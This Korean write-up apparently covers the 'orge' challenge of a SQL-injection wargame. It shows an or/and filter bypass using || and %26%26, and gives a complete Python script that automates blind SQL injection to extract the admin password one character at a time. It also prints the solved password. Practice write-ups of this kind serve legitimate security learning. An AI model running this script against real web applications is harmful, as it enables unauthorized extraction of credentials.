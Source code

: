 

# [07] orge

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbQxKQf%2FbtrnlmsKa5t%2FkOxOU4EvB5DqdsYjWKBc90%2Fimg.png">

## 풀이
                     
천천히 살펴보면, 4번 문제와 6번 문제를 합쳐놓았다는 것을 알 수 있다.

- 4번 Blind SQLi + 6번 or/and 필터링

<br> 

4번 문제를 풀 때 썼던 **Blind SQLi 자동화 코드**에

6번 문제를 풀 때 썼던 **or/and 필터링 우회 방법**을 적용시켜주면 될 것 같다.

<br>

따라서 자동화 코드의 파라미터 부분을 다음과 같이 수정해준다.


```
param=f"?{param_name}=' || id=\"admin\" %26%26 length({param_name})={num} %23"
```

1. or ⇒ \|\|

2. and ⇒ %26%26

<br>

```python
import requests

def check_length(url, cookie, param_name):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?{param_name}=' || id=\"admin\" %26%26 length({param_name})={num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" in res.text):
            return num

def blind_sqli(url, cookie, param_name, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?{param_name}=' || id=\"admin\" %26%26 ascii(substr({param_name},{len},1))={ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    param_name=input("파라미터의 이름을 알려주세요:")
    
    length=check_length(url, cookie, param_name)
    print(f"👏 {param_name}의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, param_name, length)
    print(f"👏 {param_name}의 정체는 {ans}입니다!")
    
    exit
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbFBWIL%2FbtrndGfEk8V%2FveTAKHtfAiuNDsNIMxDHhk%2Fimg.png">

Blind 공격 결과, admin의 pw는 `7b751aec` 임을 알 수 있다.

## 결과
                     
<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbvEs0U%2FbtrnlnZu1Od%2F8RZ9nKvoAsYBx7nWkpj9KK%2Fimg.png">